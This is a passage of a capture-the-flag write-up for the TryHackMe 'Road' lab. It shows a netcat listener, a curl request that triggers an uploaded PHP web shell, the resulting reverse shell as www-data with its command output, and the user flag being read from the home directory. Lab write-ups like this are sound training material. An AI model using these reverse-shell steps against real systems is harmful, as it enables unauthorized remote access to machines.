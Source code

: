 Start the listener on local machine:

```
┌──(kali㉿kali)-[~/TryHackMe/Road]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
```

Then use `curl` to execute the shell:

```
curl http://10.10.222.154/v2/profileimages/shell.php
```

```
┌──(kali㉿kali)-[~/TryHackMe/Road]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.63.75] from (UNKNOWN) [10.10.222.154] 33172
Linux sky 5.4.0-73-generic #82-Ubuntu SMP Wed Apr 14 17:39:42 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 15:00:13 up 51 min,  0 users,  load average: 0.00, 0.00, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Navigate to `/home` directory and found 1 user:

```
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root         root         4096 May 25  2021 .
drwxr-xr-x 20 root         root         4096 May 25  2021 ..
drwxr-xr-x  4 webdeveloper webdeveloper 4096 Oct  8  2021 webdeveloper
```

Access the directory and get the flag:

```
$ cd webdeveloper
$ ls -la
total 36
drwxr-xr-x 4 webdeveloper webdeveloper 4096 Oct  8  2021 .
drwxr-xr-x 3 root         root         4096 May 25  2021 ..
lrwxrwxrwx 1 webdeveloper webdeveloper    9 May 25  2021 .bash_history -> /dev/null
-rw-r--r-- 1 webdeveloper webdeveloper  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 webdeveloper webdeveloper 3771 Feb 25  2020 .bashrc
drwx------ 2 webdeveloper webdeveloper 4096 May 25  2021 .cache
drwxrwxr-x 3 webdeveloper webdeveloper 4096 May 25  2021 .local
-rw------- 1 webdeveloper webdeveloper   51 Oct  8  2021 .mysql_history
-rw-r--r-- 1 webdeveloper webdeveloper  807 Feb 25  2020 .profile
-rw-r--r-- 1 webdeveloper webdeveloper    0 Oct  7  2021 .sudo_as_admin_successful
-rw-r--r-- 1 webdeveloper webdeveloper   33 May 25  2021 user.txt
$ cat user.txt
[REDACTED]
```
